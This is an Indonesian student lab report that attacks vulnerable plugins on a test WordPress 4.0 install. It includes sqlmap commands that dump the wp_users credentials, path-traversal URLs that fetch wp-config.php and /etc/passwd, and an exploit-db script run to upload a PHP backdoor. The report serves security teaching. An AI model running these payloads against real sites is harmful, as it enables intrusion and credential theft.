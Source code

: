 ##Dokumentasi Perancangan Keamanan Sistem dan Jaringan

>###Penulis
>* M. Syaiful Jihad A.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100022
>* Yoga Bayu Aji P.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100023
>* Bagas Andita S.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100029

##Percobaan Serangan pada Plugins CMS Wordpress

##Simulasi dan skema serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Percobaan kali ini akan melakukan serangan pada celah keamanan yang ada pada plugin wordpress. Alat yang digunakan menggunakan wordpress versi 4.0. Kemudian akan diinstall beberapa plugin yang memiliki celah keamanan.

###Persiapan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pertama kita siapkan dulu CMS Wordpress yang akan digunakan. CMS dapat diunduh dari link [berikut](http://https://wordpress.org/download/).

####Langkah Installasi
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Persiapan untuk melakukan installasi wordpress:
- Web Server (Apache)
- Database (MySQL)
- PHP (5.6)

Sebelum melakukan installasi wordpress, kita persiapkan database dan usernya terlebih dahulu. Pada percobaan kali ini didapatkan konfigurasi sebagai berikut
>Database: wordpress
>DB Username: wordpressuser
>DB Password: wppasswd

Setelah semua terinstall maka extract CMS wordpress yang sudah kita download tadi kedalam folder /var/www/html. Setelah itu buat file konfigurasi wordpress. Dalam wordpress sudah disediakan contoh file konfigurasi sehingga kita dapat menggunakannya.
```
cp wp-config-sample.php wp-config.php
```
Setelah itu kita edit file ++wp-cinfig.php++ dan masukan konfigurasi koneksi database seperti pada gambar dibawah

![wp-config](asset/tugas2/wp-config.png)

Setelah itu kita buka wordpress dari web browser dan masukkan konfigurasi password admin login dan nama website. Username yang digunakan:
>Username: testing
>Password: testing

Setelah semua konfigurasi selesai, kita menginstall plugin yang akan kita pasang dan melakukan uji coba serangan. Cara menginstallasi plugin tersebut, kita meletakkan plugin yang sudah kita download kedalam folder wp-content/plugins/. Setelah itu kita masuk kedalam dashboard admin pada wordpress dan melakukan aktivasi plugin yang sudah kita install.

![activate](asset/tugas2/activate.png)

###Uji Coba Serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan plugin wordpress, kali ini kita menggunakan Sistem Operasi Kali Linux. Setelah melakukan installasi, kita melakukan enumerasi terhadap target untuk mengetahui apa saja celah keamanan yang ada pada website tersebut. Tools yang digunakan adalah [WPScan](http://wpscan.org). Untuk melakukan enumerasi gunakan perintah:
```
wpscan --url http://target.com --enumerate
```
```
# wpscan --url http://10.151.36.38/wordpress --enumerate
```

Maka akan muncul seperti ini:

![wpscan_init](asset/tugas2/wpscan_init.png)

####Uji Coba Dengan Plugin Video Player 1.5.16
berikut ini adalah tampilan plugin video player 1.5.16
![videoplayer](asset/tugas2-023/12.PNG)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![serang1](asset/tugas2-023/13.PNG)

kemudian akan ditemukan sebuah username yang digunakan untuk login pada website seperti berikut ini :

![serang2](asset/tugas2-023/15.PNG)
catatan : alamat website adalah alamat website berbeda (dengan IP address 192.168.232.129)

####Uji Coba Menggunakan League Manager 3.9.1.11
Pada tahap ini dilakukan instalasi plugin league manager versi 3.9.1.11. berikut ini adalah tampilan plugin league manager 3.9.1.11 ketika sudah diaktifkan :

![league manager 3.9.1.1](asset/tugas2-023/14.PNG)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![serangleague](asset/tugas2-023/leaguemanager_wpscan.PNG)

Pada uji coba ini dihasilkan hasil yang sama seperti ketika menggunakan plugin video player 1.5.16

![league](asset/tugas2-023/16.PNG)

####Uji Coba Menggunakan WP Ultimate Explorer 1.1
Pada tahap ini dilakukan instalasi plugin WP Ultimate Explorer versi 1.1. berikut ini adalah tampilan plugin WP Ultimate Explorer versi 1.1 ketika sudah diaktifkan :

![wpultiexplore](asset/tugas2-023/wp-ultimate-explorer-show.png)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![wpexploreratt](asset/tugas2-023/wp-ultimate-explorer.PNG)

####Uji Coba Menggunakan WP Symposium 15.1

uji coba menggunakan wpscan didapati hasil sebagai berikut

![wpwp](asset/tugas2-023/wp-symposium.PNG)

####Uji Coba Serangan SQL Injection
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan SQL Injection, maka kita memerlukan tools yang bernama [sqlmap](http://sqlmap.org). Kali ini kita akan mencoba melakukan serangan pada plugin League Manager dengan celah keamanan seperti pada website [ini](https://www.exploit-db.com/exploits/37182/). 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukannya kita akan menyerang link dari pertandingan yang ada pada website tersebut. Perintah yang  digunakan untuk mendapatkan database yang digunakan adalah:
```
sqlmap --url "http://target.com/?match=1" --level 5 --risk 3 -dbs
```
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 -dbs
```

Maka akan dihasilkan :
![getDB](asset/tugas2/getDB.png)

Selanjutnya kita akan mencari tabel yang ada dalam database tersebut. Perintah yang digunakan adalah sebagai berikut ini:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --tables -D wordpress
```
Akan muncul semua tabel yang ada. Disini kita menumukan table wp_user, untuk itu kita akan melihat data apa saja yang ada dalam tabel tersebut. Perintah yang digunakan adalah:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --dump -D wordpress -T wp_users
```

Tara, kita mendapatkan hasil username dan password dari login wordpress yang terdaftar.

![getUser](asset/tugas2/getUser.png)

>Note: hasil password didapat karena hash sudah ada dalam dictionary

####Uji Serangan pada Plugin HB Audio Gallery Lite 1.0.0
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pada plugin tersebut terdapat sebuah celah keamanan berupa Arbitrary File Donwload. Jadi celah keamanan ini dapat mendownload file yang seharusnya tidak boleh diakses oleh pengguna. Dokumentasi dari celah ini dapat dibaca [disini](https://www.exploit-db.com/exploits/39589/). Cara memanfaatkan celah ini adalah dengan menggunakan  perintah:
```
/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=../../../../wp-config.php&file_size=10
```

Setelah menjalankan perintah tersebut maka file wp-config.php akan didownload.
![getWp-config](asset/tugas2/getWp-config.png)

####Uji Coba Serangan pada Plugin DB Backup
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pada plugin tersebut terdapat sebuah celah keamanan berupa Arbitrary File Download sehingga kita bisa mendownload file yang seharusnya tidak boleh diakses. Dokumentasi dari celah ini dapat dilihat [disini](https://www.exploit-db.com/exploits/35378/). Cara memanfaatkan celah ini adalah dengan mengetikkan alamat pada browser:
```
/wp-content/plugins/db-backup/download.php?file=/etc/passwd
```

Setelah diakses maka kita mendapat file /etc/passwd yang berisi semua user yang terdaftar pada komputer server.

![DBBackup](asset/tugas2/DBBackup.png)

####Uji Coba Serangan Slideshow Gallery 1.4.6
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pada plugin ini terdapat celah keamanan berupda upload file. Celah ini sangat berbahaya karena dapat memasukkan backdoor kedalam wordpress. Dokumentasinya dapat dibaca [disini](https://www.exploit-db.com/exploits/34681/). Caramelakukannya dengan menggunakan script python yang sudah ada paga dokumentasi dan jalankan dengan:
```
python exploit.py -t http://localhost/wordpress -u testing -p testing -f exploit.php
```

Jika berhasil akan ada notifikasi seperti berikut ini:
![uploadEx](asset/tugas2/uploadEx.png)

Dan setelah diakses alamat tersebut akan mengeksekusi exploit yang sudah dihapus.

![akses](asset/tugas2/akses.png)